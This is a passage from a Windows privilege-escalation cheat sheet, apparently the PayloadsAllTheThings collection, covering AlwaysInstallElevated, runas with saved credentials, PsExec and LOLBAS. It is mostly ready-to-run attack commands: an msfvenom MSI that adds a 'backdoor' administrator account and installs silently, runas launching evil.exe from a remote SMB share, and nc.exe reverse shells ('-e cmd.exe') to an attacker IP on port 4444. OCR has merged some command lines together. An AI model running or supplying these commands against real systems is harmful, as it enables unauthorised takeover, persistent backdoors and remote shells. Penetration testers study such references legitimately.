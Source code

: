 To cross compile a program from Kali, use the following command.

    Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c

## EoP - AlwaysInstallElevated

Check if these registry values are set to “1”.

    $ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    $ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Then create an MSI package and install it.

    $ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi$ msiexec /quiet /qn /i C:\evil.msi

Technique also available in Metasploit : `exploit/windows/local/always_install_elevated`

## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: “Windows Help and Support” (Windows + F1), search for “command prompt”, click on “Click to open Command Prompt”

## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

    cmdkey /listCurrently stored credentials:Target: Domain:interactive=WORKGROUP\AdministratorType: Domain PasswordUser: WORKGROUP\Administrator

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"

Using `runas` with a provided set of credential.

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

    $ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)$ computer = "<hostname>"[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

## EoP - From local administrator to NT SYSTEM

    PsExec.exe -i -s cmd.exe

## EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts (and also Libraries) : https://lolbas-project.github.io/

> The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.
